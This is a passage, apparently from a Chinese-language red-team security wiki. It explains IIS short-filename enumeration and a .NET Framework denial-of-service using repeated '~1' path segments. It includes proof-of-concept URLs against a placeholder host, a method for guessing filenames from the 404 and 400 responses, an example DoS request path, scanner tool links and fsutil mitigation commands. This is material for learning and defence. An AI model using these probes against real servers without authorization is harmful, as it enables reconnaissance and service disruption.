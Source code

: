 - POC | Payload | exp
    ```bash
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    # 若1返回404而2返回400,则可以判断目标站点存在漏洞.
    http://www.xxx.com/a*~1*/.aspx
    # 若存在将返回404,不存在则返回400.以此类推,不断向下猜解所有的6个字符.
    ```

    ![](../../../../assets/img/Security/RedTeam/Web安全/BS-Exploits/3.jpg)

    ```
    Windows Server 2008 R2
    查询是否开启短文件名功能:fsutil 8dot3name query
    关闭该功能:fsutil 8dot3name set 1

    Windows Server 2003
    关闭该功能:fsutil behavior set disable8dot3 1
    ```
    - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
    - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

**.Net Framework 拒绝服务攻击**
- 描述

    当请求文件夹名称包含 `~1` 的请求,会导致不存在该文件的 .Net Framework 去递归查询所有根目录.如果只有一个"~1"是无效的,当"~1"大于一个,比如像这样:

    `/wwwtest/fuck~1/~1/~1/~1.aspx`

    此时文件系统会这样调用:
    ```
    \wwwtest                           SUCCESS
    \wwwtest\fuck~1\~1\~1\~1           PATH NOT FOUND
    \wwwtest\fuck~1                    NAME NOT FOUND
    \wwwtest\fuck~1\~1\                PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\             PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1              PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1              PATH NOT FOUND
    \wwwtest\fuck~1\~1                 PATH NOT FOUND
    \wwwtest\fuck~1                    NAME NOT FOUND
    \wwwtest                           SUCCESS
    \wwwtest                           SUCCESS
    ```
    如果我们请求的文件/文件夹名同时存在大小写时,这个请求会被请求两次,一次是原封不动的请求,一次是全部使用小写的请求.

    下表显示了每个请求的 FS 调用的数量(Windows 2008 R2, IIS 7.5(latest patch - June 2012), and .Net framework 4.0.30319 (在别的系统下可能会不同))
    ![](../../../../assets/img/Security/RedTeam/Web安全/BS-Exploits/1.jpg)
